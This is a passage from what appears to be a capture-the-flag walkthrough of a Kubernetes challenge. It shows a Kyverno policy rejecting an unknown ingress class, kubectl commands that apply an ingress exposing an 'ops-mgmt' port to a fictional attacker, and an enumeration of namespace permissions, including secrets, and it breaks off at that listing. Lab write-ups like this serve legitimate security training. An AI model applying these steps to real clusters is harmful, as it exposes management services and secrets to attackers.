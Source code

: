 Please pay close attention to the `metadata: annotation` as without this Ingress will not know what ingress class to use. Attempting to use a different ingress class will alert Security Operations!

```bash
Resource: "networking.k8s.io/v1, Resource=ingresses", GroupVersionKind: "networking.k8s.io/v1, Kind=Ingress"
Name: "ingress-ii-mgmt", Namespace: "ii-prod"
for: "ingress.yaml": admission webhook "validate.kyverno.svc-fail" denied the request:

resource Ingress/ii-prod/ingress-ii-mgmt was blocked due to the following policies

restrict-ingress-classes:
  validate-ingress: 'validation error: SECOPS ALERT: Unknown Ingress Class defined.
    Rule validate-ingress failed at path /metadata/annotations/kubernetes.io/ingress.class/'
```

Let's apply this from the `jumpbox-terminal`.

```bash
root@jumpbox-terminal:~# kubectl apply -f ingress.yaml
ingress.networking.k8s.io/ingress-ii-mgmt configured
```

Great, it looks like we have everything in place to allow Captain Hλ$ħ𝔍Ⱥ¢k to exploit the `ops-mgmt` port.

### Step 4: Acquiring the flags and completing the challenge

So according to our challenge brief, **"If successful, Captain Hλ$ħ𝔍Ⱥ¢k will drop you a secret payment for your malicious actions. Good Luck!"**. So let's see if can find this "secret" payment.

```bash
root@jumpbox-terminal:~# kubectl auth can-i --list -n ii-prod
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
services                                        []                                    []               [get list patch update]
ingresses.networking.k8s.io                     []                                    []               [get list patch update]
networkpolicies.networking.k8s.io               []                                    []               [get list patch update]
configmaps                                      []                                    []               [get list watch]
endpoints                                       []                                    []               [get list watch]
pods                                            []                                    []               [get list watch]
secrets                                         []                                    []               [get list watch]
namespaces                                      []                                    []               [get list]
                                                [/.well-known/openid-configuration]   []               [get]
                                                [/api/*]                              []               [get]
                                                [/api]                                []               [get]
                                                [/apis/*]                             []               [get]
                                                [/apis]                               []               [get]
```